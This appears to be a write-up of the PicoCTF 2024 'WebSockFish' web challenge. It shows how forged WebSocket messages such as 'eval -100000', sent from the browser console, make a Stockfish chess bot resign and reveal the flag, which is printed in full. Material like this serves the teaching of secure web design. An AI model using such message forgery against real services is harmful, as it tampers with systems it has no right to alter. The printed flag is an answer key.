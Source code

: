 # **Writeup: WebSockFish - PicoCTF 2024**

---

### **📌 Challenge Information**

- **Challenge Name:** WebSockFish
- **Category:** Web Exploitation (Client-Side WebSockets)
- **Difficulty:** Medium to Hard
- **Description:**
The goal is to **win a chess game against the Stockfish engine** via a web-based interface. However, Stockfish is a very strong engine, making a fair win nearly impossible. We need to find a way to manipulate the game mechanics to achieve victory.

---

## **🔍 1. Analyzing the Challenge (Reconnaissance)**

When accessing the challenge page **(http://verbal-sleep.picoctf.net:54668/)**, we see a chessboard along with a chat message from a fish icon that says:

> "I’m just a fish, but I know a thing or two about chess."
> 

### **📌 Observations**

1. The page contains an **interactive chessboard** where we can move pieces.
2. The **fish provides responses** during the game, indicating some sort of interactivity.
3. **WebSockets are being used** (`ws://`), which we can confirm from the page's JavaScript source code.

### **📌 Looking into the Source Code**

By inspecting the page source (`View Page Source`) and checking the **DevTools Console**, we found some important clues:

### **🔹 Key JavaScript Code (Understanding the Mechanics)**

1. **A WebSocket connection is established:**
    
    ```jsx
    var ws_address = "ws://" + location.hostname + ":" + location.port + "/ws/";
    const ws = new WebSocket(ws_address);
    
    ```
    
2. **WebSocket messages are sent and received:**
    
    ```jsx
    ws.onmessage = (event) => {
        const message = event.data;
        updateChat(message);
    };
    
    ```
    
3. **Stockfish Chess Engine is used:**
    
    ```jsx
    var stockfish = new Worker("js/stockfish.min.js");
    stockfish.postMessage("uci");
    
    ```
    
4. **Stockfish sends evaluation scores (`eval`) to determine the game position:**
    
    ```jsx
    stockfish.onmessage = function (event) {
        if (event.data.startsWith(`info depth ${DEPTH}`)) {
            var splitString = event.data.split(" ");
            if (event.data.includes("mate")) {
                message = "mate " + parseInt(splitString[9]);
            } else {
                message = "eval " + parseInt(splitString[9]);
            }
            sendMessage(message);
        }
    };
    
    ```
    

### **📌 Key Findings**

- **Stockfish calculates position evaluations (`eval`) and sends them to the WebSocket.**
- `"mate X"` means checkmate in `X` moves.
- `"eval N"` represents the position score:
    - **Positive values (`+N`)**: White (us) is winning.
    - **Negative values (`N`)**: Black (Stockfish) is winning.
    - **Extremely high or low values mean a decisive win/loss.**

### **📌 Potential Vulnerability**

- **Stockfish sends `eval` values to the WebSocket without validation.**
- If we **manipulate these values**, we might trick the system into thinking we've won.
- There is **no verification** of whether `eval` values are generated by Stockfish.

---

## **🚀 2. Exploiting the Vulnerability**

### **📌 First Attempt: Sending `mate 1`**

We tried:

```jsx
ws.send("mate 1");
```

But nothing significant happened.

### **📌 Second Attempt: Sending a Large Positive Evaluation**

We tested:

```jsx
ws.send("eval 99999");
```

The response from the fish:

> "You're in deep water now!"
> 

This suggests that **large values trigger a response but don't win the game**.

### **📌 Third Attempt: Sending a Large Negative Evaluation**

Since negative `eval` values indicate **Stockfish is losing**, we tried:

```jsx
ws.send("eval -5000");
```

Response from the fish:

> "Wow you're quite the chess shark!"
> 

### **📌 Final Breakthrough: Sending an Extreme Negative Evaluation**

Since **negative values suggest that Stockfish is in a bad position**, we tested:

```jsx
ws.send("eval -100000");
```

And **BOOM! The fish resigned and revealed the flag:**

> "Huh???? How can I be losing this badly... I resign... here's your flag: picoCTF{c1i3nt_s1d3_w3b_s0ck3t5_50441bef}" 🎉
